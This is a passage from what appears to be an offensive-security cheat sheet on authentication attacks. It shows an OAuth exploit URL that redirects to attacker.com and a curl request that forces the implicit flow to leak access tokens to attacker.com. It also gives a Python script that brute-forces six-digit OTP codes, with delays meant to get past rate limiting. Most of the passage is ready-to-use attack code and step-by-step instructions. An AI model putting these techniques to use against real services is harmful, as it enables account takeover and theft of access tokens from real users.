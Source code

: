**Exploit URL**:

```
https://oauth-provider.com/auth?client_id=123&redirect_uri=http://attacker.com/callback
```

**Why This Works**:

- OAuth providers may not validate `redirect_uri` strictly.

**Flags to Check**:

- Missing `state` parameter (enables CSRF).

## b. Implicit Flow Token Exposure

**Step-by-Step**:

1. Change `response_type=code` to `response_type=token`.
2. Capture the access token in the URL fragment.

**cURL Request**:

```bash
curl -I "https://oauth-provider.com/auth?response_type=token&client_id=CLIENT_ID&redirect_uri=https://attacker.com"

```
**Why This Works**:

- Implicit flow returns tokens in the URL (vulnerable to XSS/leakage).

# 3. OTP Bypass with Time-Based Attacks

**Step-by-Step**:

1. Intercept the OTP submission request.
2. Brute-force the 6-digit code with delays.

**Python Brute-Force Script**:

```python
import requests    
import time    
  
target_url = "https://vulnerable.com/verify-otp"    
headers = {'Cookie': 'session=YOUR_SESSION_COOKIE'}    
  
for otp in range(000000, 999999):    
    data = {'otp': str(otp).zfill(6)}    
    response = requests.post(target_url, data=data, headers=headers)    
    if "Invalid OTP" not in response.text:    
        print(f"[+] Valid OTP: {otp}")    
        break    
    time.sleep(2)  # Bypass rate limiting
```
